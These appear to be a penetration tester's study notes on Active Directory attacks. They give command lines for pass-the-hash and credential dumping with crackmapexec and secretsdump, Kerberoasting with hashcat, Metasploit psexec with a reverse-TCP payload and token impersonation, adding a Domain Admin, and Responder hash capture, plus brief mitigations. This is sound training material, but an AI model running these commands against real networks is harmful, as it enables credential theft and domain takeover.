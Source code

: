 Pass the Password:
	`crackmapexec smb <ip/CIDR> -u <user> -d <domain> -p <password>
	you can add `--sam` to dump the account SAM
	you can add `--shares` to enumerate shares
	you can add `--lsa` to dump secrets
	you can add `-M lsassy` can dump cleartext passwords or hashes and other information
	`cmedb` brings you to the crackmapexec database

Pass the Hash:
	`crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth`
	This only works with NTLMv1
	all the same flags work here

Dumping/Cracking Hashes:
	`secretsdump.py <domain/user>:'<password>'@<ip>`
	This can dump hashes, and possibly cleartext passwords
	`secretsdump.py <domain/user>:@<ip> -hashes <hash>`
	after getting new users and hashes, respray the network with local accounts

Mitigation for Pass the Pass/Hash:
	Limit account re-use
	Use strong passwords
	Password Access Management


Kerberoasting:
	This attack focuses only on the domain controller
	`sudo GetUserSPNs.py <domain>/<user>:<password> -dc-ip <dc ip address> -request`
	throw hash in a text file
	`hashcat -m 13100 krb.txt /usr/share/wordlists/rockyou.txt <if on host OS, add -O>`
	Mitigation: Strong passwords, and least privilege

Token Impersonation:
	Delegate and Impersonate. Focusing on on Delegate
	`msfconsole`
	`search psexec`
	`use exploit/windows/smb/psexec`
	`set payload windows/x64/eterpreter/reverse_tcp`
	`set rhosts <target ip>
	`set smbuser <user>`
	`set smbpass <password>`
	`set smbdomain <domain>`
	`run`
	in meterpreter, do the following
	`load incognito`
	`list_tokens -u`
	`impersonate_token marvel\\<user>`
	`shell`
	To add user:
	`net user /add <user> <password> /domain`
	`net group "Domain Admins" <user> /ADD /DOMAIN`
	to undo impersonation, use `rev2self`
	use `secretsdump.py` on the DC using the new user

Token Impersonation Mitigation:
	Limit user/group token creation permissions
	account tiering
	local admin restriction


URL File Attacks:
	Send file from "Internet shortcut example" to machine
	On the attacker machine, open responder
	`responder -I eth0 -v`
	if target loads directory holding the file, hashes will be sent to responder


Mimikatz:
	Caught by most AVs
	mimikatz by gentillkiwi
